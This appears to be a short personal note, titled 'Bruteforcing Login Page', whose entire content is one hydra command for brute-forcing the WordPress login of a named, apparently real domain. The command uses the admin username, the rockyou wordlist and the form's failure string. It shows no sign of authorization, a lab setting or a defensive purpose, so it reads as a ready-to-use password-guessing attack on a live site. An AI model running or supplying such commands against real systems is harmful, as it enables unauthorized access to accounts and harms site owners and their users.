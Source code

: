 ```yaml
---
title: Bruteforcing Login Page
updated: 2023-03-26T18:17:33.0000000+04:00
created: 2023-03-26T18:17:10.0000000+04:00
---
```


Bruteforcing Login Page
Sunday, March 26, 2023
6:17 PM

| Command | hydra -l admin -P /usr/share/wordlists/rockyou.txt lailaresort.com http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username" |
|---------|-------------------------------------------------------------------------------------------------------------------------------------------------------------|

![image1](image1-51.png)


